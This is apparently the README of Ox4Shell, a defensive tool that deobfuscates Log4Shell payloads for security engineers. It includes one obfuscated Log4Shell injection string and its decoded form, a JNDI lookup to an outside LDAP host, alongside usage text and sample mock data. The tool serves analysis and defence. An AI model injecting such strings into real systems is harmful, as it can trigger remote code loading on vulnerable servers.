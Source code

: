 # Ox4Shell
Deobfuscate Log4Shell payloads with ease.


## Description
Since the release of the Log4Shell vulnerability (CVE-...), many tools were created to obfuscate Log4Shell payloads,
making the lifes of security engineers a nightmare.

This tool intends to aid security enginners to unravel the true contents of obfuscated Log4Shell payloads.

For example, consider the following obfuscated payload:
```text
${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo@-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.mQ:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s:-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}
```

After running Ox4Shell, it would transform into an intuitive and readable form:
```text
${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}
```


## Usage
To run the tool simply:
```
usage: ox4shell [-h] [-d] (-p PAYLOAD | -f FILE)

   ____       _  _   _____ _          _ _ 
  / __ \     | || | / ____| |        | | |
 | |  | |_  _| || || (___ | |__   ___| | |
 | |  | \ \/ /__   _\___ \| '_ \ / _ \ | |
 | |__| |>  <   | | ____) | | | |  __/ | |
  \____//_/\_\  |_||_____/|_| |_|\___|_|_|

Ox4Shell - Deobfuscate Log4Shell payloads with ease.
    Created by Oxeye.io

options:
  -h, --help            show this help message and exit
  -d, --debug           Enable debug mode
  -p PAYLOAD, --payload PAYLOAD
                        The payload to deobfuscate
  -f FILE, --file FILE  A file containing payloads
```


## Mock Data
Ox4Shell uses the `mock.json` file to insert common values into certain lookup function, for example,
if the payload contains the value `${env:HOME}`, we can replace it with a custom mock value.

For example, the default set of mock data provided is:
```json
{
    "hostname": "ip-172-30-20-110",
    "env": {
        "aws_profile": "staging",
        "user": "ubuntu",
        "pwd": "/opt/",
        "path": "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/jvm/java-1.8-openjdk/jre/bin:/usr/lib/jvm/java-1.8-openjdk/bin"
    },
    "sys": {
        "java.version": "16.0.2",
        "user.name": "ubuntu"
    },
    "java": {
        "version": "Java version 16.0.2",
        "os": "Linux 5.10.47-linuxkit unknown, architecture: amd64-64"
    }
}
```

## Authors
- [Daniel Abeles](https://twitter.com/Daniel_Abeles)
- [Ron Vider](https://twitter.com/ron_vider)


## License
The source code for the site is licensed under the MIT license, which you can find in the LICENSE file.

